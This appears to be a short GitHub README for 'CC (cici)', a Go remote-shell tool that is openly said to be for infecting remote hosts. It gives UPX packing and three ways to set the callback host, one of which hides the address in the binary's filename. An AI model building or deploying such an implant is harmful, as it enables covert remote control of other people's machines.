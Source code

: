 # CC (cici)

Remote shell for managing and/or infecting remote host(s) 🤔

### Dependencies
Golang, upx binary minifier

The target binary is ~850Kb on linux. The project can be cross-compilable to every platform supported by go/tinygo

## ⚠️ Building/Targeting

To target the remote host, you have 3 options:
 - use environment variable: `R=maci.com:5000 ./cc` 
 - use package into build with: `make remote=maci.com:5000`
 - rename the binary and encode the IP to hex like: `cc-c0a800011388` this is: 192.168.0.1:5000


***guns don't kill people. People are killing people! Use the tool responsibly!*** - Nev3rkn0wn
